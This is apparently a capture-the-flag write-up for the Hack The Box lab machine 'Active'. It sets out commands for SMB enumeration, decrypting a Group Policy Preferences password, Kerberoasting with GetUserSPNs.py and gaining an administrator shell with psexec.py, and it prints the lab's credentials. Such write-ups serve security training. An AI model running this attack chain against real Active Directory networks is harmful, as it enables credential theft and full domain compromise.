 ```yaml
---
description: Walkthrough (Easy)
---
```


# Active 🟢🟢🟢

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

[https://app.hackthebox.com/machines/Active](https://app.hackthebox.com/machines/Active)  &#x20;

Active is an easy to medium difficulty machine, which features two very prevalent techniques to gain privileges within an Active Directory environment.

### Reconnaissance

```bash
nmap -T4 -F -sVC 10.10.10.100 -oN Nmap
```

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

* Found SMB open in port 139, 445 lets try it.

### Enumeration

```bash
smbmap -H 10.10.10.100
```

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

* Got Replication folder where we can Read it. So lets connect to that folder :)

```bash
smbclient \\\\10.10.10.100\\Replication
```

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

* Inside active.htb directory there are bunch of files and folders available, So lets download them all by using command mget \*

```bash
find . -type f
```

* found come intresting file Groups/Groups.xml

{% code overflow="wrap" fullWidth="true" %}
```xml
┌──(root㉿kali)-[/home/…/Downloads/Machines/HackTheBox/Active]
└─# cat Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml 
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
{% endcode %}

* Found User SVC\_TGS and a password hash

### Info about Group Policy Preferences&#x20;

Group Policy Preferences (GPP) was introduced in Windows Server 2008, and among many other features, allowed administrators to modify users and groups across their network. An example use case is where a company’s gold image had a weak local administrator password, and administrators wanted to retrospectively set it to something stronger.&#x20;

The defined password was `AES-256` encrypted and stored in `Groups.xml` . However, at some point in 2012, Microsoft published the AES key on MSDN, meaning that passwords set using GPP are now trivial to crack and considered low-hanging fruit.

We extract the encrypted password form the `Groups.xml` file and decrypt it using `gpp-decrypt`

{% code fullWidth="false" %}
```bash
┌──(root㉿kali)-[/home/…/Downloads/Machines/HackTheBox/Active]
└─# gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```
{% endcode %}

### Getting User.txt

```bash
smbclient -U SVC_TGS%GPPstillStandingStrong2k18 //10.10.10.100/Users
```

* that is -> -U user%password

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

* Goto SVC\_TGS and in Desktop there is user.txt

### Previlage Escalation

```bash
GetADUsers.py -all active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100
```

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

* `GetADUsers.py` is a python script used for Active Directory of SMB and it list all the users in that SMB connection.
* Found 4 users. But interesting is  Administrator the root.
* Check for any activity, request response from Administrator to our SVC\_TGS user

```bash
GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request -save -outputfile hash
```

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* Captured that hash and cracked it using JohnTheRipper.
* Now we got user:administrator pass:Ticketmaster1968

### Getting Root.txt

```bash
psexec.py Administrator@10.10.10.100 cmd.exe
```

* psexec.py used for SMB connect and remote code execution.

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

* Found root flag.&#x20;

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>
